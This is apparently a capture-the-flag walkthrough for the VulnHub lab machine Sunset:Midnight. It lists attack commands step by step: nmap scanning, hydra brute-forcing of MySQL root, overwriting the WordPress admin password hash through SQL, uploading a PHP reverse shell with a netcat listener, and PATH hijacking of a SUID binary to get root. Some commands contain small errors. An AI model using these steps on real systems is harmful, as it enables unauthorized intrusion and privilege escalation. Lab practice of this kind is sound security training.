 


# Sunset:Midnight Walkthrough 

**VulnHub Link:** [Sunset:Midnight](https://www.vulnhub.com/entry/sunset-midnight,517/)
**Difficulty:** Easy
**Release Date:** 19 Jul 2020


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.153


## 2.Web Enumeration

whatweb http://192.168.100.153


sudo echo "192.168.100.153    sunset-mignight" > /etc/hosts

## 3.Brute Forcing

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.100.153 -I
```

robert found

```bash
mysql -h 192.168.100.153 -u root -p
```

we saw that we cant crack hashes of wp_users who is admin
we generate a hash from hash generator websites

and then ---->
```bash
use wordpress_db;
update wp_users password="<hash>" where user='admin';
```

we can login to wordpress site which we generate before 

we upload reverse_shell.php in plugins page

then open /wp-content/uploads/2025/reverse_shell.php

Warning: listen before executing shell payload ..!
```bash
rlwrap nc -nvlp 1234
```

then we got www-data shell.

in /var/www/html/wordpress/wp-config.php , we got jose password

after gaining jose shell

```bash
find / -perm /4000 2>/dev/null
```

we observe that /usr/bin/status has suid byte

```bash
strings /usr/bin/status
echo "/bin/sh" > /tmp/service
chmod +x /tmp/service
export PATH=/tmp:$PATH
/usr/bin/status
```

and BINGO ..! We got ROOT shell Successfully....!

```

